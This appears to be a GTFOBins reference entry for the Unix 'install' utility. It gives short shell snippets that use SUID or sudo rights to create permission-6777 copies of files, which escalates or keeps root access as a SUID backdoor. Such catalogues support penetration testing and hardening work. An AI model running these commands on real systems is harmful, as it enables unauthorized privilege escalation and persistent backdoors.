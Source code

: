 # GTFOBin: install

This can be run with elevated privileges to change permissions (`6` denotes the SUID bits) and then read, write, or execute a copy of the file.

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which install) .

LFILE=file_to_change
TF=$(mktemp)
./install -m 6777 $LFILE $TF
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_change
TF=$(mktemp)
sudo install -m 6777 $LFILE $TF
```